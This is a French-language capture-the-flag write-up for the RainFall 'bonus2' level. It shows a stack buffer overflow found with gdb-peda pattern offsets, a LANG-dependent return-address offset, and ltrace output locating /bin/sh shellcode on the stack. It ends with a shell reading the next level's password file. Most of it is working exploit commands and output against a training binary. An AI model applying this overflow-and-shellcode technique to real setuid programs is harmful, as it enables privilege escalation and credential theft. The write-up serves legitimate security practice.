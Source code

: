 # Bonus 2
- Quand on met un arg 1 de 40+ strncpy met un `\0` trop loin se qu'il fait qu'il est ecraser par arg2. Se qui fait que arg1 et arg2 sont une string
- On voit donc dans cette exemple qu'on peut overwrite la Return Adress
<pre>
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AA'
gdb-peda$ r $(python -c  "print('A' * 200)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AA'

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%AAsAABAA$AAnAACAA-AA(AADAA;A

Program received signal SIGSEGV, Segmentation fault.
[-------------------------------------code-------------------------------------]
<strong>Invalid $PC address: 0x800413b</strong>
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0800413b in ?? ()
gdb-peda$ pattern offset 'A;'
<strong>A; found at offset: 29</strong>
</pre>

- Quand LANG est different en different de NULL alors var_60 est ecrit dans env
- Sauf que vu qu'il y a deja un overide dans le strcpy de l'arg[1]. Les arg_1 et arg_2 sont considerer comme un seul argument

<pre>
$> LANG=nl gdb ./bonus2 
gdb-peda$ pattern create 40
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'
gdb-peda$ r $(python -c "print('A' * 40)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'

Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%AAsAABAA$AAnAACAA-AA(AADAA;A

[----------------------------------registers-----------------------------------]
<strong>EIP: 0x41412841 ('A(AA')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41412841
[------------------------------------stack-------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41412841 in ?? ()
gdb-peda$ pattern offset 'A(AA'
<strong>A(AA found at offset: 23</strong>
</pre>
- On recupere la bonne addresse memoire ou sera stocké le shellcode
<pre>
bonus2@RainFall:~$ LANG=nl ltrace ./bonus2 $(/tmp/shell) "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
\__libc_start_main(0x8048529, 3, 0xbffff684, 0x8048640, 0x80486b0 <unfinished ...>
strncpy(<strong>0xbffff580</strong>, "1\311\367\341Qh//shh/bin\211\343\260\013\315\200AAAAAAAAAAA"..., 40) = 0xbffff580
strncpy(0xbffff5a8, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 32)                            = 0xbffff5a8
getenv("LANG")                                                                            = "nl"
memcmp(0xbffff84c, 0x804873d, 2, 0xb7fff918, 0)                                           = 1
memcmp(0xbffff84c, 0x8048740, 2, 0xb7fff918, 0)                                           = 0
strcat("Goedemiddag! ", "1\311\367\341Qh//shh/bin\211\343\260\013\315\200AAAAAAAAAAA"...) = "Goedemiddag! 1\311\367\341Qh//shh/bin\211\343\260\013"...
puts("Goedemiddag! 1\311\367\341Qh//shh/bin\211\343\260\013"...)                          = 86
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
</pre>
- Et on peut lancer le programme avec les argument suivant

| arg 1 | arg 2 |
|-------|-------|
| shellcode + `A` * 20 | `B` * 23 + `\x80\xf5\xff\xbf` |

- On creer des .c car en python ca bug
```
bonus2@RainFall:~$ LANG=nl ./bonus2 $(/tmp/shell) $(/tmp/pat)
Goedemiddag! 1���Qh//shh/bin���̀
                               AAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB����
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
